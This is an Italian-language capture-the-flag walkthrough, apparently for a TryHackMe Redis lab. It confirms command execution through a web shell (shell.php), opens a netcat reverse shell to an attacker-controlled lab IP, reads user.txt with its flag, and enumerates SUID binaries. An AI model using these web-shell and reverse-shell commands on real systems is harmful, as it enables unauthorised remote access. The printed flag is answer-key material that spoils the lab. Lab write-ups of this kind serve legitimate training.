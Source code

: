 ora verifichiamo RCE
```
http://10.10.72.78/shell.php?cmd=id
```
```
REDIS0009\ufffd redis-ver6.0.7\ufffd redis-bits\ufffd@\ufffdctime\ufffdn\ufffd)h\ufffdused-mem\ufffd`\ufffd\ufffdaof-preamble\ufffd\ufffd\ufffdtestuid=33(www-data) gid=33(www-data) groups=33(www-data) \ufffd\ufffdH\ufffd\ufffd\ufffd<\ufffd
```

```
http://10.10.72.78/shell.php?cmd=whoami
```

```
www-data
```

```
nc -lnvp 1234
```

```
python3 -m http.server 1234
```

```
http://10.10.72.78/shell.php?cmd=nc 10.10.187.250 1234 -e /bin/bash
```

url codificata
```
http://10.10.72.78/shell.php?cmd=nc%2010.10.187.250%201234%20-e%20/bin/bash
```
riceviamo la shell
```
cd /home
ls
vianka
cd vianka
ls
redis-stable
user.txt
cat user.txt
thm{red1s_rce_w1thout_credent1als}
```
Compromettere la macchina e individuare user.txt
```
thm{red1s_rce_w1thout_credent1als}
```

Qual è la password dell'account utente locale?
id

```
find / -perm -u=s -type f 2>/dev/null
```
```
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd

```
